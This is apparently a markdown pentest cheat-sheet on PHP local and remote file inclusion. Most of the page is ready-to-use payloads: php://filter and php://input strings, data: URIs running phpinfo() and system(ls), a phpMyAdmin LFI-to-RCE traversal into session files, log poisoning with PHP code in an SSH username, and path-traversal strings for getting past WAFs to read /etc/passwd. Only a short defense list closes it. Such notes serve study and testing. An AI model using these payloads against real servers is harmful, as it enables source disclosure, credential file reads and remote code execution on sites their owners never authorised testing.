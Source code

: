 # File Inclusion    
Scene: Attacker can control the variable to including files  
Dangerous functions：  
PHP: `include()`, `include_once()`, `require()`, `require_once()`, `fopen()`, `readfile()`  
JSP: `java.io.FileReader()`  
ASP: `includefile`  
PHP will run the content of file as php script when it includes a file, so it is **not influenced by file type**.    

# RFI  
Include remote file, more dangerous, but more requirement, mostly dissapear in real world  
`php.ini` setting  
1. allow_url_fopen = on (default: on)  
2. allow_url_include = on (default: off)  

# Way to include  
1. php protocol  
```php
php://input
// Condition：allow_url_include = on
?file=php://input
POST data: xxx

php://filter
// get source code
?file=php://filter/read=convert.base64-encode/resource=file.php
// filter can be used on handling string
// [Phith0n 谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)
php://filter/read=string.strip_tags/resource=php://input

phar://path.zip/file.php
// php5.3.0up, parse the archived file

zip://path.zip%23file.php
// php5.3.0up, work as phar://, but need absolute path, and need to encode # as %23

data:URL schema
// php5.2up, two settings in php.ini set to on
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain,<?php system(ls);?>
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b (base64 encode phpinfo)
```  
More protocol：`file://`,`ftp://`,`zlib://`,`glob://`,`ssh2://`,`rar://`,`ogg://`,`expect://`  

2. include session  
session content can be controlled, and session path can also be known...  
session path can be got from `session_save_path` in phpinfo  
Stored place of session：  
```php
/var/lib/php/sess_xxxxx
/var/lib/php/sessions/sess_xxxx
/tmp/sess_xxxxxx
/tmp/sessions/sess_xxxxx
```  
CVE：  
phpmyadmin from LFI to RCE  
```php
xxx/phpmyadmin/index.php?target=xxx.php%253F/../../../../../var/lib/php/sessions/sess_xxxxxx
```  
3. include log  
log can be read?  
Take apache for example, request would be written in `access.log`，error would be written in `error.log`，and default stored in `/var/log/apache2/`  
Therefore, attacker always needs to get the path via config file, and whether the request would be encoded (use burp to modify the encoded request), then include the log in the end  
4. include ssh log  
Can be read or not？  
Default path: `/var/log/apache2/access.log`,`/var/log/apache2/error.log`  
```php
ssh '<?php phpinfo();?>'@remotehost
// phpinfo in log, and include
```  
5. include environ  
6. include fd  
7. include temp file  
8. include uploaded file  

# WAF bypass  
* relative path bypass  
WAF usually detect **continuous** multiple `../`
```php
// according to parsing path

// not change
/./ not change
///./..//.//////./   -> use with conbination
```  
* absolute path bypass, `/etc/passwd` would be blocked  
```php
/aaa/../etc/passwd
/etc/./passwd
```

# Defense  
Make a conclusion of the requirement above, we can get the following mitigation  
* php `open_basedir`  
* read permission  
* filter of dangerous characters
